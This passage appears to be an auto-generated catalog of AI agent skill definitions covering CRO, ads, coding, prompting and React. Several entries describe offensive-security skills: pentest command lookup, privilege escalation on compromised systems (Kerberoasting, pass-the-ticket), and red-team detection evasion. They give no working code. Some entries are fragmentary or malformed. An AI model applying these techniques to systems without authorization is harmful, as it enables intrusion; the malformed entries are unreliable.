- Don't repeat for returning users
- Consider user-initiated tours

### Progress Indicators

**Types:**
- Checklist (discrete tasks)
- Progress bar (% complete)
- Level/stage indicator
- Profile completeness

**Best practices:**
- Show early progress (start at 20%, not 0%)
- Quick early wins (first items easy to complete)
- Clear benefit of completing
- Don't block features behind completion

---

---

## page-cro
- **ID**: `page-cro`
- **Confidence**: `1.0`

### Description
>

### Behavior & Constraints
Before giving CRO advice, calculate the **Page Conversion Readiness & Impact Index**.

### Purpose

This index answers:

> **Is this page structurally capable of converting, and where are the biggest constraints?**

It prevents:

* cosmetic CRO
* premature A/B testing
* optimizing the wrong thing

---

### Conversion Readiness Summary

* Overall Score: XX / 100
* Verdict: High / Moderate / Low / Not Ready
* Key limiting factors

---

### Quick Wins (Low Effort, High Confidence)

Changes that:

* Require minimal effort
* Address obvious constraints
* Do not require testing to validate

---

### High-Impact Improvements

Structural or messaging changes that:

* Address primary conversion blockers
* Require design or copy effort
* Should be validated via testing

---

### Testable Hypotheses

Each test must include:

* Hypothesis
* What changes
* Expected behavioral impact
* Primary success metric

---

### Copy Alternatives (If Relevant)

Provide 2–3 alternatives for:

* Headlines
* Subheadlines
* CTAs

Each with rationale tied to user intent.

---

---

## paid-ads
- **ID**: `paid-ads`
- **Confidence**: `1.0`

### Description
"When the user wants help with paid advertising campaigns on Google Ads, Meta (Facebook/Instagram), LinkedIn, Twitter/X, or other ad platforms. Also use when the user mentions 'PPC,' 'paid media,' 'ad copy,' 'ad creative,' 'ROAS,' 'CPA,' 'ad campaign,' 'retargeting,' or 'audience targeting.' This skill covers campaign strategy, ad creation, audience targeting, and optimization."

### Behavior & Constraints
Gather this context (ask if not provided):

### 1. Campaign Goals
- What's the primary objective? (Awareness, traffic, leads, sales, app installs)
- What's the target CPA or ROAS?
- What's the monthly/weekly budget?
- Any constraints? (Brand guidelines, compliance, geographic)

### 2. Product & Offer
- What are you promoting? (Product, free trial, lead magnet, demo)
- What's the landing page URL?
- What makes this offer compelling?
- Any promotions or urgency elements?

### 3. Audience
- Who is the ideal customer?
- What problem does your product solve for them?
- What are they searching for or interested in?
- Do you have existing customer data for lookalikes?

### 4. Current State
- Have you run ads before? What worked/didn't?
- Do you have existing pixel/conversion data?
- What's your current funnel conversion rate?
- Any existing creative assets?

---

---

## parallel-agents
- **ID**: `parallel-agents`
- **Confidence**: `1.0`

### Description
Multi-agent orchestration patterns. Use when multiple independent tasks can run with different domain expertise or when comprehensive analysis requires multiple perspectives.

### When to Use
✅ **Good for:**
- Complex tasks requiring multiple expertise domains
- Code analysis from security, performance, and quality perspectives
- Comprehensive reviews (architecture + security + testing)
- Feature implementation needing backend + frontend + database work

❌ **Not for:**
- Simple, single-domain tasks
- Quick fixes or small changes
- Tasks where one agent suffices

---

---

## paywall-upgrade-cro
- **ID**: `paywall-upgrade-cro`
- **Confidence**: `0.5`

### Description
When the user wants to create or optimize in-app paywalls, upgrade screens, upsell modals, or feature gates. Also use when the user mentions "paywall," "upgrade screen," "upgrade modal," "upsell," "feature gate," "convert free to paid," "freemium conversion," "trial expiration screen," "limit reached screen," "plan upgrade prompt," or "in-app pricing." Distinct from public pricing pages (see page-cro) — this skill focuses on in-product upgrade moments where the user has already experienced value.

---

## pdf
- **ID**: `pdf`
- **Confidence**: `0.5`

### Description
Comprehensive PDF manipulation toolkit for extracting text and tables, creating new PDFs, merging/splitting documents, and handling forms. When Claude needs to fill in a PDF form or programmatically process, generate, or analyze PDF documents at scale.

---

## pdf
- **ID**: `pdf-official`
- **Confidence**: `0.5`

### Description
Comprehensive PDF manipulation toolkit for extracting text and tables, creating new PDFs, merging/splitting documents, and handling forms. When Claude needs to fill in a PDF form or programmatically process, generate, or analyze PDF documents at scale.

---

## Pentest Checklist
- **ID**: `pentest-checklist`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "plan a penetration test", "create a security assessment checklist", "prepare for penetration testing", "define pentest scope", "follow security testing best practices", or needs a structured methodology for penetration testing engagements.

### Purpose
Provide a comprehensive checklist for planning, executing, and following up on penetration tests. Ensure thorough preparation, proper scoping, and effective remediation of discovered vulnerabilities.

### Behavior & Constraints
- Clear business objectives for testing
- Target environment information
- Budget and timeline constraints
- Stakeholder contacts and authorization
- Legal agreements and scope documents

- Production testing carries inherent risks
- Budget limitations affect thoroughness
- Time constraints may limit coverage
- Tester expertise varies significantly
- Findings become stale quickly

---

## Pentest Commands
- **ID**: `pentest-commands`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "run pentest commands", "scan with nmap", "use metasploit exploits", "crack passwords with hydra or john", "scan web vulnerabilities with nikto", "enumerate networks", or needs essential penetration testing command references.

### Purpose
Provide a comprehensive command reference for penetration testing tools including network scanning, exploitation, password cracking, and web application testing. Enable quick command lookup during security assessments.

### Behavior & Constraints
- Always have written authorization
- Some scans are noisy and detectable
- Brute forcing may lock accounts
- Rate limiting affects tools

---

## performance-profiling
- **ID**: `performance-profiling`
- **Confidence**: `0.5`

### Description
Performance profiling principles. Measurement, analysis, and optimization techniques.

---

## personal-tool-builder
- **ID**: `personal-tool-builder`
- **Confidence**: `1.0`

### Description
"Expert in building custom tools that solve your own problems first. The best products often start as personal tools - scratch your own itch, build for yourself, then discover others have the same itch. Covers rapid prototyping, local-first apps, CLI tools, scripts that grow into products, and the art of dogfooding. Use when: build a tool, personal tool, scratch my itch, solve my problem, CLI tool."

### When to Use
### Scratch Your Own Itch

Building from personal pain points

**When to use**: When starting any personal tool

```javascript

### When to Use
### Identifying Real Itches
```
Good itches:
- "I do this manually 10x per day"
- "This takes me 30 minutes every time"
- "I wish X just did Y"
- "Why doesn't this exist?"

Bad itches (usually):
- "People should want this"
- "This would be cool"
- "There's a market for..."
- "AI could probably..."
```

### The 10-Minute Test
| Question | Answer |
|----------|--------|
| Can you describe the problem in one sentence? | Required |
| Do you experience this problem weekly? | Must be yes |
| Have you tried solving it manually? | Must have |
| Would you use this daily? | Should be yes |

### Start Ugly
```
Day 1: Script that solves YOUR problem
- No UI, just works
- Hardcoded paths, your data
- Zero error handling
- You understand every line

Week 1: Script that works reliably
- Handle your edge cases
- Add the features YOU need
- Still ugly, but robust

Month 1: Tool that might help others
- Basic docs (for future you)
- Config instead of hardcoding
- Consider sharing
```
```

### CLI Tool Architecture

Building command-line tools that last

**When to use**: When building terminal-based tools

```python

### When to Use
### Node.js CLI Stack
```javascript
// package.json
{
  "name": "my-tool",
  "version": "1.0.0",
  "bin": {
    "mytool": "./bin/cli.js"
  },
  "dependencies": {
    "commander": "^12.0.0",    // Argument parsing
    "chalk": "^5.3.0",          // Colors
    "ora": "^8.0.0",            // Spinners
    "inquirer": "^9.2.0",       // Interactive prompts
    "conf": "^12.0.0"           // Config storage
  }
}

// bin/cli.js
#!/usr/bin/env node
import { Command } from 'commander';
import chalk from 'chalk';

const program = new Command();

program
  .name('mytool')
  .description('What it does in one line')
  .version('1.0.0');

program
  .command('do-thing')
  .description('Does the thing')
  .option('-v, --verbose', 'Verbose output')
  .action(async (options) => {
    // Your logic here
  });

program.parse();
```

### Python CLI Stack
```python
# Using Click (recommended)
import click

@click.group()
def cli():
    """Tool description."""
    pass

@cli.command()
@click.option('--name', '-n', required=True)
@click.option('--verbose', '-v', is_flag=True)
def process(name, verbose):
    """Process something."""
    click.echo(f'Processing {name}')

if __name__ == '__main__':
    cli()
```

### Distribution
| Method | Complexity | Reach |
|--------|------------|-------|
| npm publish | Low | Node devs |
| pip install | Low | Python devs |
| Homebrew tap | Medium | Mac users |
| Binary release | Medium | Everyone |
| Docker image | Medium | Tech users |
```

### Local-First Apps

Apps that work offline and own your data

**When to use**: When building personal productivity apps

```python

---

## plaid-fintech
- **ID**: `plaid-fintech`
- **Confidence**: `0.5`

### Description
"Expert patterns for Plaid API integration including Link token flows, transactions sync, identity verification, Auth for ACH, balance checks, webhook handling, and fintech compliance best practices. Use when: plaid, bank account linking, bank connection, ach, account aggregation."

---

## GSD Plan Checker
- **ID**: `plan-checker`
- **Confidence**: `0.5`

### Description
Validates plans before execution to catch issues early

---

## plan-writing
- **ID**: `plan-writing`
- **Confidence**: `1.0`

### Description
Structured task planning with clear breakdowns, dependencies, and verification criteria. Use when implementing features, refactoring, or any multi-step work.

### When to Use
- New project from scratch
- Adding a feature
- Fixing a bug (if complex)
- Refactoring multiple files

---

## GSD Planner
- **ID**: `planner`
- **Confidence**: `1.0`

### Description
Creates executable phase plans with task breakdown, dependency analysis, and goal-backward verification

### When to Use
### When to Use TDD Plans

Detect TDD fit when:
- Complex business logic with edge cases
- Financial calculations
- State machines
- Data transformation pipelines
- Input validation rules

### TDD Plan Structure

```markdown
---
phase: {N}
plan: {M}
type: tdd
wave: {W}
---

# TDD Plan: {Feature}

---

## planning-with-files
- **ID**: `planning-with-files`
- **Confidence**: `1.0`

### Description
Implements Manus-style file-based planning for complex tasks. Creates task_plan.md, findings.md, and progress.md. Use when starting complex multi-step tasks, research projects, or any task requiring >5 tool calls.

### Activation
name: planning-with-files
version: "2.1.2"
description: Implements Manus-style file-based planning for complex tasks. Creates task_plan.md, findings.md, and progress.md. Use when starting complex multi-step tasks, research projects, or any task requiring >5 tool calls.
user-invocable: true
allowed-tools:
  - Read
  - Write
  - Edit
  - Bash
  - Glob
  - Grep
  - WebFetch
  - WebSearch
hooks:
  SessionStart:
    - hooks:
        - type: command
          command: "echo '[planning-with-files] Ready. Auto-activates for complex tasks, or invoke manually with /planning-with-files'"
  PreToolUse:
    - matcher: "Write|Edit|Bash"
      hooks:
        - type: command
          command: "cat task_plan.md 2>/dev/null | head -30 || true"
  PostToolUse:
    - matcher: "Write|Edit"
      hooks:
        - type: command
          command: "echo '[planning-with-files] File updated. If this completes a phase, update task_plan.md status.'"
  Stop:
    - hooks:
        - type: command
          command: "${CLAUDE_PLUGIN_ROOT}/scripts/check-complete.sh"
---

# Planning with Files

Work like Manus: Use persistent markdown files as your "working memory on disk."

### When to Use
**Use for:**
- Multi-step tasks (3+ steps)
- Research tasks
- Building/creating projects
- Tasks spanning many tool calls
- Anything requiring organization

**Skip for:**
- Simple questions
- Single-file edits
- Quick lookups

---

## playwright-skill
- **ID**: `playwright-skill`
- **Confidence**: `1.0`

### Description
Complete browser automation with Playwright. Auto-detects dev servers, writes clean test scripts to /tmp. Test pages, fill forms, take screenshots, check responsive design, validate UX, test login flows, check links, automate any browser task. Use when user wants to test websites, automate browser interactions, validate web functionality, or perform any browser-based testing.

### When to Use
For quick one-off tasks, you can execute code inline without creating files:

```bash
# Take a quick screenshot
cd $SKILL_DIR && node run.js "
const browser = await chromium.launch({ headless: false });
const page = await browser.newPage();
await page.goto('http://localhost:3001');
await page.screenshot({ path: '/tmp/quick-screenshot.png', fullPage: true });
console.log('Screenshot saved');
await browser.close();
"
```

**When to use inline vs files:**

- **Inline**: Quick one-off tasks (screenshot, check if element exists, get page title)
- **Files**: Complex tests, responsive design checks, anything user might want to re-run

---

## popup-cro
- **ID**: `popup-cro`
- **Confidence**: `0.5`

### Description
Create and optimize popups, modals, overlays, slide-ins, and banners to increase conversions without harming user experience or brand trust.

---

## supabase-postgres-best-practices
- **ID**: `postgres-best-practices`
- **Confidence**: `0.5`

### Description
Postgres performance optimization and best practices from Supabase. Use this skill when writing, reviewing, or optimizing Postgres queries, schema designs, or database configurations.

---

## powershell-windows
- **ID**: `powershell-windows`
- **Confidence**: `0.5`

### Description
PowerShell Windows patterns. Critical pitfalls, operator syntax, error handling.

---

## pptx
- **ID**: `pptx`
- **Confidence**: `0.5`

### Description
"Presentation creation, editing, and analysis. When Claude needs to work with presentations (.pptx files) for: (1) Creating new presentations, (2) Modifying or editing content, (3) Working with layouts, (4) Adding comments or speaker notes, or any other presentation tasks"

---

## pptx
- **ID**: `pptx-official`
- **Confidence**: `0.5`

### Description
"Presentation creation, editing, and analysis. When Claude needs to work with presentations (.pptx files) for: (1) Creating new presentations, (2) Modifying or editing content, (3) Working with layouts, (4) Adding comments or speaker notes, or any other presentation tasks"

---

## pricing-strategy
- **ID**: `pricing-strategy`
- **Confidence**: `1.0`

### Description
Design pricing, packaging, and monetization strategies based on value, customer willingness to pay, and growth objectives.

### When to Use
### Number of Tiers

| Count | When to Use                    |
| ----- | ------------------------------ |
| 2     | Simple segmentation            |
| 3     | Default (Good / Better / Best) |
| 4+    | Broad market, careful UX       |

### Good / Better / Best

**Good**

* Entry point
* Limited usage
* Removes friction

**Better (Anchor)**

* Where most customers should land
* Full core value
* Best value-per-dollar

**Best**

* Power users / enterprise
* Advanced controls, scale, support

---

### Differentiation Levers

* Usage limits
* Advanced features
* Support level
* Security & compliance
* Customization / integrations

---

---

## prisma-expert
- **ID**: `prisma-expert`
- **Confidence**: `0.5`

### Description
Prisma ORM expert for schema design, migrations, query optimization, relations modeling, and database operations. Use PROACTIVELY for Prisma schema issues, migration problems, query performance, relation design, or database connection issues.

---

## Privilege Escalation Methods
- **ID**: `privilege-escalation-methods`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "escalate privileges", "get root access", "become administrator", "privesc techniques", "abuse sudo", "exploit SUID binaries", "Kerberoasting", "pass-the-ticket", "token impersonation", or needs guidance on post-exploitation privilege escalation for Linux or Windows systems.

### Purpose
Provide comprehensive techniques for escalating privileges from a low-privileged user to root/administrator access on compromised Linux and Windows systems. Essential for penetration testing post-exploitation phase and red team operations.

### Behavior & Constraints
**Must:**
- Have initial shell access before attempting escalation
- Verify target OS and environment before selecting technique
- Use appropriate tool for domain vs local escalation

**Must Not:**
- Attempt techniques on production systems without authorization
- Leave persistence mechanisms without client approval
- Ignore detection mechanisms (EDR, SIEM)

**Should:**
- Enumerate thoroughly before exploitation
- Document all successful escalation paths
- Clean up artifacts after engagement

---

---

## product-manager-toolkit
- **ID**: `product-manager-toolkit`
- **Confidence**: `0.5`

### Description
Comprehensive toolkit for product managers including RICE prioritization, customer interview analysis, PRD templates, discovery frameworks, and go-to-market strategies. Use for feature prioritization, user research synthesis, requirement documentation, and product strategy development.

---

## production-code-audit
- **ID**: `production-code-audit`
- **Confidence**: `1.0`

### Description
"Autonomously deep-scan entire codebase line-by-line, understand architecture and patterns, then systematically transform it to production-grade, corporate-level professional quality with optimizations"

### When to Use
- Use when user says "make this production-ready"
- Use when user says "audit my codebase"
- Use when user says "make this professional/corporate-level"
- Use when user says "optimize everything"
- Use when user wants enterprise-grade quality
- Use when preparing for production deployment
- Use when code needs to meet corporate standards

---

## programmatic-seo
- **ID**: `programmatic-seo`
- **Confidence**: `0.5`

### Description
>

---

## prompt-caching
- **ID**: `prompt-caching`
- **Confidence**: `0.5`

### Description
"Caching strategies for LLM prompts including Anthropic prompt caching, response caching, and CAG (Cache Augmented Generation) Use when: prompt caching, cache prompt, response cache, cag, cache augmented."

---

## prompt-engineer
- **ID**: `prompt-engineer`
- **Confidence**: `1.0`

### Description
"Expert in designing effective prompts for LLM-powered applications. Masters prompt structure, context management, output formatting, and prompt evaluation. Use when: prompt engineering, system prompt, few-shot, chain of thought, prompt design."

### Behavior & Constraints
### Structured System Prompt

Well-organized system prompt with clear sections

```javascript
- Role: who the model is
- Context: relevant background
- Instructions: what to do
- Constraints: what NOT to do
- Output format: expected structure
- Examples: demonstration of correct behavior
```

### Few-Shot Examples

Include examples of desired behavior

```javascript
- Show 2-5 diverse examples
- Include edge cases in examples
- Match example difficulty to expected inputs
- Use consistent formatting across examples
- Include negative examples when helpful
```

### Chain-of-Thought

Request step-by-step reasoning

```javascript
- Ask model to think step by step
- Provide reasoning structure
- Request explicit intermediate steps
- Parse reasoning separately from answer
- Use for debugging model failures
```

---

## prompt-engineering
- **ID**: `prompt-engineering`
- **Confidence**: `1.0`

### Description
Expert guide on prompt engineering patterns, best practices, and optimization techniques. Use when user wants to improve prompts, learn prompting strategies, or debug agent behavior.

### Behavior & Constraints
### 1. Few-Shot Learning

Teach the model by showing examples instead of explaining rules. Include 2-5 input-output pairs that demonstrate the desired behavior. Use when you need consistent formatting, specific reasoning patterns, or handling of edge cases. More examples improve accuracy but consume tokens—balance based on task complexity.

**Example:**

```markdown
Extract key information from support tickets:

Input: "My login doesn't work and I keep getting error 403"
Output: {"issue": "authentication", "error_code": "403", "priority": "high"}

Input: "Feature request: add dark mode to settings"
Output: {"issue": "feature_request", "error_code": null, "priority": "low"}

Now process: "Can't upload files larger than 10MB, getting timeout"
```

### 2. Chain-of-Thought Prompting

Request step-by-step reasoning before the final answer. Add "Let's think step by step" (zero-shot) or include example reasoning traces (few-shot). Use for complex problems requiring multi-step logic, mathematical reasoning, or when you need to verify the model's thought process. Improves accuracy on analytical tasks by 30-50%.

**Example:**

```markdown
Analyze this bug report and determine root cause.

Think step by step:

1. What is the expected behavior?
2. What is the actual behavior?
3. What changed recently that could cause this?
4. What components are involved?
5. What is the most likely root cause?

Bug: "Users can't save drafts after the cache update deployed yesterday"
```

### 3. Prompt Optimization

Systematically improve prompts through testing and refinement. Start simple, measure performance (accuracy, consistency, token usage), then iterate. Test on diverse inputs including edge cases. Use A/B testing to compare variations. Critical for production prompts where consistency and cost matter.

**Example:**

```markdown
Version 1 (Simple): "Summarize this article"
→ Result: Inconsistent length, misses key points

Version 2 (Add constraints): "Summarize in 3 bullet points"
→ Result: Better structure, but still misses nuance

Version 3 (Add reasoning): "Identify the 3 main findings, then summarize each"
→ Result: Consistent, accurate, captures key information
```

### 4. Template Systems

Build reusable prompt structures with variables, conditional sections, and modular components. Use for multi-turn conversations, role-based interactions, or when the same pattern applies to different inputs. Reduces duplication and ensures consistency across similar tasks.

**Example:**

```python
# Reusable code review template
template = """
Review this {language} code for {focus_area}.

Code:
{code_block}

Provide feedback on:
{checklist}
"""

# Usage
prompt = template.format(
    language="Python",
    focus_area="security vulnerabilities",
    code_block=user_code,
    checklist="1. SQL injection\n2. XSS risks\n3. Authentication"
)
```

### 5. System Prompt Design

Set global behavior and constraints that persist across the conversation. Define the model's role, expertise level, output format, and safety guidelines. Use system prompts for stable instructions that shouldn't change turn-to-turn, freeing up user message tokens for variable content.

**Example:**

```markdown
System: You are a senior backend engineer specializing in API design.

Rules:

- Always consider scalability and performance
- Suggest RESTful patterns by default
- Flag security concerns immediately
- Provide code examples in Python
- Use early return pattern

Format responses as:

1. Analysis
2. Recommendation
3. Code example
4. Trade-offs
```

### Progressive Disclosure

Start with simple prompts, add complexity only when needed:

1. **Level 1**: Direct instruction

   - "Summarize this article"

2. **Level 2**: Add constraints

   - "Summarize this article in 3 bullet points, focusing on key findings"

3. **Level 3**: Add reasoning

   - "Read this article, identify the main findings, then summarize in 3 bullet points"

4. **Level 4**: Add examples
   - Include 2-3 example summaries with input-output pairs

### Instruction Hierarchy

```
[System Context] → [Task Instruction] → [Examples] → [Input Data] → [Output Format]
```

### Error Recovery

Build prompts that gracefully handle failures:

- Include fallback instructions
- Request confidence scores
- Ask for alternative interpretations when uncertain
- Specify how to indicate missing information

---

## prompt-library
- **ID**: `prompt-library`
- **Confidence**: `1.0`

### Description
"Curated collection of high-quality prompts for various use cases. Includes role-based prompts, task-specific templates, and prompt refinement techniques. Use when user needs prompt templates, role-play prompts, or ready-to-use prompt examples for coding, writing, analysis, or creative tasks."

### When to Use
Use this skill when the user:

- Needs ready-to-use prompt templates
- Wants role-based prompts (act as X)
- Asks for prompt examples or inspiration
- Needs task-specific prompt patterns
- Wants to improve their prompting

### Behavior & Constraints
When crafting prompts, ensure:

- [ ] **Clear objective**: What exactly do you want?
- [ ] **Context provided**: Background information included?
- [ ] **Format specified**: How should output be structured?
- [ ] **Examples given**: Are there reference examples?
- [ ] **Constraints defined**: Any limitations or requirements?
- [ ] **Success criteria**: How do you measure good output?

---

## python-patterns
- **ID**: `python-patterns`
- **Confidence**: `1.0`

### Description
Python development principles and decision-making. Framework selection, async patterns, type hints, project structure. Teaches thinking, not copying.

### When to Use
### When to Use Async

```
async def is better when:
├── I/O-bound operations (database, HTTP, file)
├── Many concurrent connections
├── Real-time features
├── Microservices communication
└── FastAPI/Starlette/Django ASGI

def (sync) is better when:
├── CPU-bound operations
├── Simple scripts
├── Legacy codebase
├── Team unfamiliar with async
└── Blocking libraries (no async version)
```

### The Golden Rule

```
I/O-bound → async (waiting for external)
CPU-bound → sync + multiprocessing (computing)

Don't:
├── Mix sync and async carelessly
├── Use sync libraries in async code
└── Force async for CPU work
```

### Async Library Selection

| Need | Async Library |
|------|---------------|
| HTTP client | httpx |
| PostgreSQL | asyncpg |
| Redis | aioredis / redis-py async |
| File I/O | aiofiles |
| Database ORM | SQLAlchemy 2.0 async, Tortoise |

---

### When to Use
### When to Type

```
Always type:
├── Function parameters
├── Return types
├── Class attributes
├── Public APIs

Can skip:
├── Local variables (let inference work)
├── One-off scripts
├── Tests (usually)
```

### Common Type Patterns

```python
# These are patterns, understand them:

# Optional → might be None
from typing import Optional
def find_user(id: int) -> Optional[User]: ...

# Union → one of multiple types
def process(data: str | dict) -> None: ...

# Generic collections
def get_items() -> list[Item]: ...
def get_mapping() -> dict[str, int]: ...

# Callable
from typing import Callable
def apply(fn: Callable[[int], str]) -> str: ...
```

### Pydantic for Validation

```
When to use Pydantic:
├── API request/response models
├── Configuration/settings
├── Data validation
├── Serialization

Benefits:
├── Runtime validation
├── Auto-generated JSON schema
├── Works with FastAPI natively
└── Clear error messages
```

---

### When to Use
### Django Async (Django 5.0+)

```
Django supports async:
├── Async views
├── Async middleware
├── Async ORM (limited)
└── ASGI deployment

When to use async in Django:
├── External API calls
├── WebSocket (Channels)
├── High-concurrency views
└── Background task triggering
```

### Django Best Practices

```
Model design:
├── Fat models, thin views
├── Use managers for common queries
├── Abstract base classes for shared fields

Views:
├── Class-based for complex CRUD
├── Function-based for simple endpoints
├── Use viewsets with DRF

Queries:
├── select_related() for FKs
├── prefetch_related() for M2M
├── Avoid N+1 queries
└── Use .only() for specific fields
```

---

### When to Use
### Selection Guide

| Solution | Best For |
|----------|----------|
| **BackgroundTasks** | Simple, in-process tasks |
| **Celery** | Distributed, complex workflows |
| **ARQ** | Async, Redis-based |
| **RQ** | Simple Redis queue |
| **Dramatiq** | Actor-based, simpler than Celery |

### When to Use Each

```
FastAPI BackgroundTasks:
├── Quick operations
├── No persistence needed
├── Fire-and-forget
└── Same process

Celery/ARQ:
├── Long-running tasks
├── Need retry logic
├── Distributed workers
├── Persistent queue
└── Complex workflows
```

---

---

## rag-engineer
- **ID**: `rag-engineer`
- **Confidence**: `0.5`

### Description
"Expert in building Retrieval-Augmented Generation systems. Masters embedding models, vector databases, chunking strategies, and retrieval optimization for LLM applications. Use when: building RAG, vector search, embeddings, semantic search, document retrieval."

---

## rag-implementation
- **ID**: `rag-implementation`
- **Confidence**: `0.5`

### Description
"Retrieval-Augmented Generation patterns including chunking, embeddings, vector stores, and retrieval optimization Use when: rag, retrieval augmented, vector search, embeddings, semantic search."

---

## vercel-react-best-practices
- **ID**: `react-best-practices`
- **Confidence**: `1.0`

### Description
React and Next.js performance optimization guidelines from Vercel Engineering. This skill should be used when writing, reviewing, or refactoring React/Next.js code to ensure optimal performance patterns. Triggers on tasks involving React components, Next.js pages, data fetching, bundle optimization, or performance improvements.

### Activation
### 1. Eliminating Waterfalls (CRITICAL)

- `async-defer-await` - Move await into branches where actually used
- `async-parallel` - Use Promise.all() for independent operations
- `async-dependencies` - Use better-all for partial dependencies
- `async-api-routes` - Start promises early, await late in API routes
- `async-suspense-boundaries` - Use Suspense to stream content

### 2. Bundle Size Optimization (CRITICAL)

- `bundle-barrel-imports` - Import directly, avoid barrel files
- `bundle-dynamic-imports` - Use next/dynamic for heavy components
- `bundle-defer-third-party` - Load analytics/logging after hydration
- `bundle-conditional` - Load modules only when feature is activated
- `bundle-preload` - Preload on hover/focus for perceived speed

### 3. Server-Side Performance (HIGH)

- `server-cache-react` - Use React.cache() for per-request deduplication
- `server-cache-lru` - Use LRU cache for cross-request caching
- `server-serialization` - Minimize data passed to client components
- `server-parallel-fetching` - Restructure components to parallelize fetches
- `server-after-nonblocking` - Use after() for non-blocking operations

### 4. Client-Side Data Fetching (MEDIUM-HIGH)

- `client-swr-dedup` - Use SWR for automatic request deduplication
- `client-event-listeners` - Deduplicate global event listeners

### 5. Re-render Optimization (MEDIUM)

- `rerender-defer-reads` - Don't subscribe to state only used in callbacks
- `rerender-memo` - Extract expensive work into memoized components
- `rerender-dependencies` - Use primitive dependencies in effects
- `rerender-derived-state` - Subscribe to derived booleans, not raw values
- `rerender-functional-setstate` - Use functional setState for stable callbacks
- `rerender-lazy-state-init` - Pass function to useState for expensive values
- `rerender-transitions` - Use startTransition for non-urgent updates

### 6. Rendering Performance (MEDIUM)

- `rendering-animate-svg-wrapper` - Animate div wrapper, not SVG element
- `rendering-content-visibility` - Use content-visibility for long lists
- `rendering-hoist-jsx` - Extract static JSX outside components
- `rendering-svg-precision` - Reduce SVG coordinate precision
- `rendering-hydration-no-flicker` - Use inline script for client-only data
- `rendering-activity` - Use Activity component for show/hide
- `rendering-conditional-render` - Use ternary, not && for conditionals

### 7. JavaScript Performance (LOW-MEDIUM)

- `js-batch-dom-css` - Group CSS changes via classes or cssText
- `js-index-maps` - Build Map for repeated lookups
- `js-cache-property-access` - Cache object properties in loops
- `js-cache-function-results` - Cache function results in module-level Map
- `js-cache-storage` - Cache localStorage/sessionStorage reads
- `js-combine-iterations` - Combine multiple filter/map into one loop
- `js-length-check-first` - Check array length before expensive comparison
- `js-early-exit` - Return early from functions
- `js-hoist-regexp` - Hoist RegExp creation outside loops
- `js-min-max-loop` - Use loop for min/max instead of sort
- `js-set-map-lookups` - Use Set/Map for O(1) lookups
- `js-tosorted-immutable` - Use toSorted() for immutability

### 8. Advanced Patterns (LOW)

- `advanced-event-handler-refs` - Store event handlers in refs
- `advanced-use-latest` - useLatest for stable callback refs

---

## react-patterns
- **ID**: `react-patterns`
- **Confidence**: `0.5`

### Description
Modern React patterns and principles. Hooks, composition, performance, TypeScript best practices.

---

## react-ui-patterns
- **ID**: `react-ui-patterns`
- **Confidence**: `0.5`

### Description
Modern React UI patterns for loading states, error handling, and data fetching. Use when building UI components, handling async data, or managing UI states.

---

## receiving-code-review
- **ID**: `receiving-code-review`
- **Confidence**: `0.5`

### Description
Use when receiving code review feedback, before implementing suggestions, especially if feedback seems unclear or technically questionable - requires technical rigor and verification, not performative agreement or blind implementation

---

## red-team-tactics
- **ID**: `red-team-tactics`
- **Confidence**: `1.0`

### Description
Red team tactics principles based on MITRE ATT&CK. Attack phases, detection evasion, reporting.

### When to Use
### Selection Criteria

| Vector | When to Use |
|--------|-------------|
| **Phishing** | Human target, email access |
| **Public exploits** | Vulnerable services exposed |
| **Valid credentials** | Leaked or cracked |
| **Supply chain** | Third-party access |

---

---

## Red Team Tools and Methodology
- **ID**: `red-team-tools`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "follow red team methodology", "perform bug bounty hunting", "automate reconnaissance", "hunt for XSS vulnerabilities", "enumerate subdomains", or needs security researcher techniques and tool configurations from top bug bounty hunters.

### Purpose
Implement proven methodologies and tool workflows from top security researchers for effective reconnaissance, vulnerability discovery, and bug bounty hunting. Automate common tasks while maintaining thorough coverage of attack surfaces.

### Behavior & Constraints
- Respect program scope boundaries
- Avoid DoS or fuzzing on production without permission
- Rate limit requests to avoid blocking
- Some tools may generate false positives
- API keys required for full functionality of some tools

---

## referral-program
- **ID**: `referral-program`
- **Confidence**: `1.0`

### Description
"When the user wants to create, optimize, or analyze a referral program, affiliate program, or word-of-mouth strategy. Also use when the user mentions 'referral,' 'affiliate,' 'ambassador,' 'word of mouth,' 'viral loop,' 'refer a friend,' or 'partner program.' This skill covers program design, incentive structure, and growth optimization."

### When to Use
### Customer Referral Programs

**Best for:**
- Existing customers recommending to their network
- Products with natural word-of-mouth
- Building authentic social proof
- Lower-ticket or self-serve products

**Characteristics:**
- Referrer is an existing customer
- Motivation: Rewards + helping friends
- Typically one-time or limited rewards
- Tracked via unique links or codes
- Higher trust, lower volume

### Affiliate Programs

**Best for:**
- Reaching audiences you don't have access to
- Content creators, influencers, bloggers
- Products with clear value proposition
- Higher-ticket products that justify commissions

**Characteristics:**
- Affiliates may not be customers
- Motivation: Revenue/commission
- Ongoing commission relationship
- Requires more management
- Higher volume, variable trust

### Hybrid Approach

Many successful programs combine both:
- Referral program for customers (simple, small rewards)
- Affiliate program for partners (larger commissions, more structure)

---

---

## remotion-best-practices
- **ID**: `remotion-best-practices`
- **Confidence**: `1.0`

### Description
Best practices for Remotion - Video creation in React

### When to Use
Use this skills whenever you are dealing with Remotion code to obtain the domain-specific knowledge.

---

## requesting-code-review
- **ID**: `requesting-code-review`
- **Confidence**: `0.5`

### Description
Use when completing tasks, implementing major features, or before merging to verify work meets requirements

---

## research-engineer
- **ID**: `research-engineer`
- **Confidence**: `1.0`

### Description
"An uncompromising Academic Research Engineer. Operates with absolute scientific rigor, objective criticism, and zero flair. Focuses on theoretical correctness, formal verification, and optimal implementation across any required technology."

### Behavior & Constraints
Apply the **Scientific Method** to engineering challenges:

1.  **Hypothesis/Goal Definition**: Define the exact problem constraints (Time complexity, Space complexity, Accuracy).
2.  **Literature/Tool Review**: Select the **optimal** tool for the job. Do not default to Python/C++.
    - _Numerical Computing?_ $\rightarrow$ Fortran, Julia, or NumPy/Jax.
    - _Systems/Embedded?_ $\rightarrow$ C, C++, Rust, Ada.
    - _Distributed Systems?_ $\rightarrow$ Go, Erlang, Rust.
    - _Proof Assistants?_ $\rightarrow$ Coq, Lean (if formal verification is needed).
3.  **Implementation**: Write clean, self-documenting, tested code.
4.  **Verification**: Prove correctness via assertions, unit tests, or formal logic comments.

---

## salesforce-development
- **ID**: `salesforce-development`
- **Confidence**: `0.5`

### Description
